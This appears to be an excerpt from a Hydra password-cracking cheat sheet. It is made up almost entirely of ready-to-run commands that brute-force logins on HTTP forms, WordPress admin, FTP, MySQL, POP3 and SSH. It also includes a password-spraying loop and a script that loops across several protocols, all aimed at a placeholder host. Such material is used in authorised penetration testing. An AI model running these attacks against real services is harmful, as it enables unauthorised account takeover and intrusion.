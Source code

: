 ### Web Application Testing
```bash
# HTTP Basic Auth attack
hydra -L users.txt -P passwords.txt http-get://target.com/protected/

# Form-based login attack
hydra -L users.txt -P passwords.txt http-post-form://target.com/login:username=^USER^&password=^PASS^:Invalid

# WordPress admin attack
hydra -L users.txt -P passwords.txt http-post-form://target.com/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Login:S=Dashboard:F=Invalid
```

### Network Service Testing
```bash
# FTP service testing
hydra -L users.txt -P passwords.txt ftp://target.com

# Database service testing
hydra -L users.txt -P passwords.txt mysql://target.com

# Mail server testing
hydra -L users.txt -P passwords.txt pop3://target.com
```

### Password Spraying
```bash
# Spray common passwords
for pass in "Password123" "admin123" "password" "123456"; do
    echo "Trying password: $pass"
    hydra -L users.txt -p $pass ssh://target.com -f
done
```

## Automation Scripts

### Multi-Protocol Testing
```bash
#!/bin/bash
# Test multiple protocols

target="target.com"
users="users.txt"
passwords="passwords.txt"
protocols=("ssh" "ftp" "telnet")

for protocol in "${protocols[@]}"; do
    echo "Testing $protocol..."
    hydra -L "$users" -P "$passwords" "$protocol://$target" -o "${protocol}_results.txt"
done
```
